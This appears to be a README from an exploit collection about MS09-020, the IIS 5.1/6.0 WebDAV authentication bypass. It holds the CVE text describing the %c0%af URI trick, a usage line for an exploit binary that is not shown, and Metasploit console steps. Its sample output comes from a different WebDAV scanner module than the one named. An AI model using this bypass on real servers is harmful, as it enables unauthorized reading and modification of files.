

# MS09-020
```
The WebDAV extension in Microsoft Internet Information Services (IIS) 5.1 and 6.0 allows remote attackers to bypass URI-based protection mechanisms, 
and list folders or read, create, or modify files, via a %c0%af (Unicode / character) at an arbitrary position in the URI, 
as demonstrated by inserting %c0%af into a "/protected/" initial pathname component to bypass the password protection on the protected\ folder, 
aka "IIS 5.1 and 6.0 WebDAV Authentication Bypass Vulnerability," a different vulnerability than CVE-2009-1122.
```

Vulnerability reference:
 * [MS09-020](https://technet.microsoft.com/library/security/ms09-020)
 * [CVE-2009-1535](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1535)

Usage:
```
iis6.0.exe command
```
  

## load the module within the Metasploit
[msf judgment](https://www.rapid7.com/db/modules/auxiliary/scanner/http/dir_webdav_unicode_bypass)
```
msf > use auxiliary/scanner/http/dir_webdav_unicode_bypass
msf auxiliary(dir_webdav_unicode_bypass) > show actions
    ...actions...
msf auxiliary(dir_webdav_unicode_bypass) > set ACTION <action-name>
msf auxiliary(dir_webdav_unicode_bypass) > show options
    ...show and set options...
msf auxiliary(dir_webdav_unicode_bypass) > run
```
```
msf auxiliary(webdav_scanner) > run

[+] 192.168.16.136 (Microsoft-IIS/6.0) has WEBDAV ENABLED
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```